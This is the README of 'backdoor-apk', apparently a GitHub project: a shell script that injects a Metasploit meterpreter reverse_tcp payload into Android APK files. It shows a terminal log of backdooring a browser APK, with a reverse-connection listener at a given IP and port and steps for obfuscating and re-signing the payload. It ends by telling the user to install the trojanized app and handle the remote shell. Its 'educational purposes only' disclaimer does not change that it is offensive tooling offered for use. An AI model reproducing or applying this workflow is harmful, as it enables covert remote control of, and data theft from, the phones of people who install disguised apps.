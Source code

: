 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk 
[*] Generating android/meterpreter/reverse_tcp payload...done.
[+] Handle the reverse connection at: 10.6.9.31:1337
[*] Decompiling RAT APK file...done.
[*] Decompiling original APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Running proguard on RAT APK file...done.
[*] Decompiling obfuscated RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection at the specified IP and port.
